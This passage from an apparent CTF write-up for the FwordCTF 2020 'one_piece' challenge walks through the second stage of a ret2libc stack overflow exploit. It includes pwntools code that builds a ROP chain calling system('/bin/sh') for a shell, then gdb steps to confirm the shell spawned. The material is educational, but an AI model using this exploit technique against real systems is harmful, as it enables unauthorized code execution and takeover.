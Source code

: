 > Don't forget to `./download libc6_2.30-0ubuntu2.2_amd64` from within the `libc-directory`.

### Second Pass: get a shell, get a flag

```python
p.recvuntil('>>')
p.sendline('gomugomunomi')
p.recvuntil('Wanna tell Luffy something ? : \n')

payload  = 0x38 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendline(payload)
p.interactive()
```

From `choice`, just use the secret word `gomugomunomi`, but this time the payload invokes `system` for a shell--_remotely_, not _locally_...

The second block in the setup while it allows using the challenge binary with the challenge libc on a system with a different native libc, it will not (in most cases), run `/bin/sh` from that system since the `LD_LIBRARY_PATH` is setup specifically for the challenge binary.  Most likely you'll get a segfault and it may be confusing as to why.  The segfault _is_ from the challenge binary, the `system` actually failed to run `/bin/sh` locally because of the aforementioned and continued execution of the program; and with an overflowed stack it is destined to segfault.

To confirm `system` actually did invoke I use gdb.  To do this I just put a `pause()` before the final `sendline` call, then connect with, gdb, e.g.:

```
gef one_piece $(pidof /pwd/datajerk/fwordctf2020/one_piece/libc-database/libs/libc6_2.30-0ubuntu2.2_amd64/ld-2.30.so)
```

> We're using the correct `ld` for the challenge `libc`, hence the _not-so-obvious_ `pidof` above.

From within gdb type:

```
gef➤  set follow-fork-mode child
gef➤  c
Continuing.
```

Then, back to `./exploit.py`, press Enter/Return to unpause, and then from the gdb session you should get:

```
[New process 26740]
process 26740 is executing new program: /bin/dash
```

That is evidence `system` worked.

> The `payload += p64(pop_rdi + 1)` fixes a [stack alignment](https://blog.binpang.me/2019/07/12/stack-alignment/) issue with `system`, `printf`, etc... sometimes you need it, other times you do not.  In this case it is needed with the remote server.
